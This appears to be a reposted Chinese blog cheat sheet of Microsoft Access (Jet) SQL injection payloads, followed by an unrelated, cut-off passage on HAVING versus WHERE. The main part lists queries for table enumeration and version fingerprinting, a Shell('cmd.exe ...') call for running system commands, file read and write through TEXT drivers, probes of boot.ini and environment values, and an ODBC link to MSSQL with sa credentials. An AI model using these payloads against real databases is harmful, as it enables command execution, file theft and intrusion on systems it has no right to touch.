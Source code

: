   
用户表   
SELECT Name FROM msysobjects WHERE Type = 1 and flags=0   
所有表   
SELECT Name FROM msysobjects WHERE Type = 1

判断版本：   
SELECT NULL FROM MSysModules2 '97   
SELECT NULL FROM MSysAccessObjects '97 2000   
SELECT NULL FROM MSysAccessXML '2000 2002-2003   
SELECT NULL FROM MSysAccessStorage '2002-2003 2007

SandBoxMode:   
SandBoxMode的开关,这个开关是开启一些特殊函数在另外的执行者中执行的权限的.它的注册表位置在   
HKEY\_LOCAL\_MACHINE\\SoftWare\\Microsoft\\Jet\\4.0\\Engine\\SandBoxMode里,默认是2.   
微软关于这个键值的介绍为:0为在任何所有者中中都禁止起用安全设置,1为仅在允许的范围之内,   
2则是必须是Access的模式下(这就是为什么我们能在Access中执行成功的原因.),3则是完全开启,连Access中也不支持.

执行命令：   
Select Shell("cmd.exe /c dir c:\ > c:\\kevin.txt")

读文件   
SELECT * FROM \[TEXT;DATABASE=c:\\;HDR=NO;FMT=Delimited\].\[kevin.txt\]

写文件：【不能在子查询和UNION查询中，实用价值不大】   
SELECT "text to write" into   
\[TEXT;DATABASE=c:\\;HDR=NO;FMT=Delimited\].\[kevin1.txt\]

当前路径：sandboxing enable   
select curdir() from msysaccessobjects   
select dir('c:\ ') from msysaccessobjects   
select environ(1) from msysaccessobjects   
select filedatetime('c:\\boot.ini') from msysaccessobjects   
select filelen('c:\\boot.ini') from msysaccessobjects   
select getattr('c:\ ') from msysaccessobjects   
select shell('cmd.exe /c dir c:\ > c:\\kevin.txt') from msysaccessobjects

跨文件查询：   
SELECT * FROM dv\_address IN 'D:\\dailian\\bbs\\Dvbbs8.2.0\_Ac\\Data\\IPaddress.mdb'

连接MSSQL:   
SELECT * FROM \[ODBC;DRIVER=SQL SERVER;Server=(local);UID=sa;PWD=2853wang;   
DATABASE=master\].Information_Schema.Tables

也不记得在那里转载的了,一直存者,文章有部分修改.
[https://blog.csdn.net/liguocheng/article/details/38067775](https://blog.csdn.net/liguocheng/article/details/38067775)



having和where都是用来进行条件筛选的，having是筛选组中的记录，而where是筛选整个表中的记录。Where子句不仅用于选择查询语句中，也广泛应用于Insert、Update及Delete等操作查询语句中，而having只能与group by子句配合使用，对分组进行筛选，只用在选择查询语句中。

当一个语句中同时含有where、group by、 having及汇总函数时，执行顺序如下：

1、执行where子句查找符合条件的数据；

2、使用group by子句对数据进行分组；对group by子句形成的组运行汇总函数计算每一组的值；
